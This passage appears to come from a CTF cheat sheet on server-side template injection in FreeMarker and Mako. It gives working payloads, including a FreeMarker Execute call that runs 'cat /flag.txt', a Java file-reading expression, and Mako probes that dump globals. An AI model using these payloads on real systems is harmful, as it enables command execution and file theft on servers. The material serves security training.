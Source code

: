 1. **Verify the injection point**:
    
    - Test with `${7*7}` to confirm template execution
2. **Check for restrictions**:
    
    - Some environments restrict `Execute` or direct command execution
    - Try different techniques based on restrictions
3. **Explore the environment**:
    
    - Use `${.globals}` to see available objects
    - Use `${.version}` to identify FreeMarker version
4. **Read the flag**:
    
    - Direct approach: `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /flag.txt")}`
    - File reading: `${new java.io.BufferedReader(new java.io.FileReader("/flag.txt")).readLine()}`

Remember that in CTF challenges, the flag might be in a non-standard location, so enumeration is key. Try listing directories with commands like `ls -la` before targeting specific files.

# SSTI for Mako Templates (Python)

Mako is a template library written in Python, often used with web frameworks like Pylons and Pyramid. Here's how to exploit Server-Side Template Injection (SSTI) vulnerabilities in Mako templates for CTF challenges:

## Basic Testing

To verify a Mako SSTI vulnerability:

```
${7 * 7}
```

If it returns `49`, you have a Mako template injection vulnerability.

## Basic Exploitation Techniques

### Expression Evaluation

```
${7 * 7}
${len('hello')}
${"hello" + " world"}
```

### Accessing Python Objects

```
${dir()}
${locals()}
${globals()}
${self.__dict__}
```

### Code Execution (Mako-specific)
